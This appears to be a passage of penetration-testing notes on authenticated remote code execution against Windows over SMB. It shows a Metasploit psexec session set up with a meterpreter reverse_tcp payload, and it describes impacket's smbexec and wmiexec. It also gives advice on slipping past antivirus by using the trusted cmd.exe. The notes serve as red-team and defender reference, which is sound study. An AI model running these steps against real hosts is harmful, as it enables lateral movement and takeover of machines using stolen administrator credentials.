 ### 🛠️ Authenticated RCE

PSExec exploit module runs on the same principle as the PSExec Windows utility. The exploit embeds a payload into an executable, upload it into the Admin$ share. It then calls the Service Control Manager to approximately start a new rundll32.exe process that will execute our malicious executable.

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > show options
Module options:

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 RHOST 192.168.57.131 yes The target address
 RPORT 445 yes Set the SMB service port
 SMBPass no The password for the specified username
 SMBUser Administrator yes The username to authenticate as
```

> [!CAUTION]
> Privileged user credentials required.

> [!CAUTION]
> File uploading, creating, starting, stopping, deletion of services makes it really noisy.

Smbexec works like Psexec, but instead of trying to execute an uploaded executable inside the share, it will try to use directly the binaries _cmd.exe/powershell.exe_. The exploit create an arbitrary service with the _Service File Name_ attribute set to a command string to execute. It echoes the command to be executed to a .bat file, execute it and delete it.

The exploit then get the output of the command via Smb and displays the content. For every command, a new service is created.

[https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

> [!TIP]
> %COMSPEC% is the environment variable that generaly points to the command line interpreter. (_cmd.exe, powershell.exe_...)

> [!TIP]
> The purpose of using /Q option of cmd is to stop displaying output. (je crois que ça veut dire /quiet à vérifier)

> [!CAUTION]
> Prioritize using Smbexec when you detect a strong AV, `cmd.exe`is a trusted component of the operating system.

> [!CAUTION]
> Privileged user credentials required.

Windows Management Instrumentation is a subsystem of PowerShell that gives high privileged access to system monitoring tools.

Wmiexec has a similar approach to smbexec but it is executing commands through WMI.
